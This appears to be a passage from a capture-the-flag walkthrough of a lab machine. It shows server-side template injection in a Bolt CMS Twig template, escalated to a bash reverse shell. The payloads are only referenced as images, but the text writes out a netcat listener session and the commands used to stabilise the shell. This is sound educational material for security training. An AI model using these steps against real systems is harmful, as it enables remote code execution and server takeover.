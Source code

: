 ![](/img/image-20220822145510497.png)

#### Template Injection

[Twig](https://twig.symfony.com/) is a template engine for PHP system.
PayloadsAllTheThings has a section on it in the
[SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#twig)
page (even though this isn't typical SSTI, it's the same idea). There's
a section on Code execution, and I'll grab the simplest looking one and
toss it in the `index.twig`:

![](/img/image-20220822145839045.png)

On saving and then clearing the cache, there's code execution:

![](/img/image-20220822145930478.png)

### Shell

To get a shell, I'll update the injection to a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

![](/img/image-20220822150554268.png)

On clearing the cache and then refreshing the main page, a reverse shell
connects to a listening `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.155 33484
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@ba67799048d7:/var/www/talkative.htb/bolt/public$ 



I'll upgrade the shell using the [script
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    www-data@ba67799048d7:/var/www/talkative.htb/bolt/public$ script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    www-data@ba67799048d7:/var/www/talkative.htb/bolt/public$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg 
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@ba67799048d7:/var/www/talkative.htb/bolt/public$ 


